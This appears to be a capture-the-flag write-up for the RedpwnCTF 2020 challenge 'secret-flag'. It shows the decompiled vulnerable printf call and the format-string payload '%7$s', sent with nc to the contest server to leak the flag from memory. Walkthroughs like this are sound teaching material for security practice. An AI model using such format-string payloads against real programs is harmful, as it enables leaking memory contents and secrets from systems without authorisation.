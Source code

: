 # secret-flag

>There's a super secret flag in printf that allows you to LEAK the data at an address??

> nc 2020.redpwnc.tf 31826

Files provided:
* the-secret:   ELF64 file

This file is stripped:
```sh
$ file ./the-secret
secret-flag: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=03c6845dc54ee5f3cef2d41be905ca0a7065ebef, stripped
```

So, let's analyze it with `Ghidra`:

![alt text](https://raw.githubusercontent.com/Yankoo458/CTF-writeups/master/RedpwnCTF2020/pwn/the-secret/img/the-secret-chl-1.png?token=AMXF42SQIOS6WPEL7F4L4SK66M2VW)

`FUN_0010091a` seems to be the `main`.

As we can see, the content of `flag.txt` is put into `__buf`

Take a look to these lines:
```c
20  fgets(local_28,0x14,stdin);
21  printf("Hello there: ");
22  printf(local_28);
```

Clearly, there is a `format-string` vulnerability, so we can use it to read the string `__buf`.

Exactly we have to read the 7th parameter as a string to leak the `flag`.

```sh
$ nc 2020.redpwnc.tf 31826
I have a secret flag, which you'll never get!
What is your name, young adventurer?
%7$s
Hello there: flag{n0t_s0_s3cr3t_f1ag_n0w}
```

So, here's the flag: `flag{n0t_s0_s3cr3t_f1ag_n0w}`.
